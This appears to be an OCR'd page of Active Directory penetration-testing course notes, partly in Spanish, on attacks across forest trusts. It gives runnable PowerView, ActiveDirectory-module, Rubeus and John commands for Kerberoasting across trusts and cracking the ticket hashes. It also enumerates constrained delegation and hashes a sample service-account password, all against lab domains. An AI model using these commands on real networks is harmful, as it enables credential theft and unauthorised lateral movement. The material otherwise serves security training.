 # Cross Forest Attacks

- Ahora tenemos privilegios de administrador empresarial en el bosque techcorp.local.
- Analicemos algunas técnicas para moverse a través de los forest trusts

**Cross Forest Attacks - Kerberoast**

- Es posible ejecutar Kerberoast en confianzas forestales.
- Vamos a enumerar las cuentas de servicio con nombre en las confianzas forestales
- Usando PowerView:

    `Get-DomainTrust | ?{$_.TrustAttributes -eq
    'FILTER_SIDS'} | %{Get-DomainUser -SPN -Domain
    $_.TargetName}`

- ActiveDirectory Module:

    `Get-ADTrust -Filter 'IntraForest -ne $true' | %{GetADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName -Server $_.Name}`

- Request a TGS:

    `C:\AD\Tools\Rubeus.exe kerberoast /user:storagesvc /simple /domain:eu.local /outfile:euhashes.txt`

- Check for the TGS:

    `klist`

- Crack using John:

    `john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt`

- Request TGS across trust using PowerShell:

    `Add-Type -AssemblyName System.IdentityModel
    New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList MSSQLSvc/eu-file.eu.local@eu.local`

**Privilege Escalation – Constrained Delegation with Protocol Transition**

- La delegación restringida clásica no funciona en confianzas forestales.
- Pero podemos abusar de él una vez que tengamos un punto de apoyo a través de la confianza forestal.

Using PowerView:

`Get-DomainUser –TrustedToAuth -Domain eu.local`

`Get-DomainComputer –TrustedToAuth -Domain eu.local`

Using ActiveDirectory module:

`Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo -Server eu.local`

Podemos solicitar un billete alternativo utilizando Rubeus:

`C:\AD\Tools\Rubeus.exe hash /password:August@2019
/user:storagesvc /domain:eu.local`
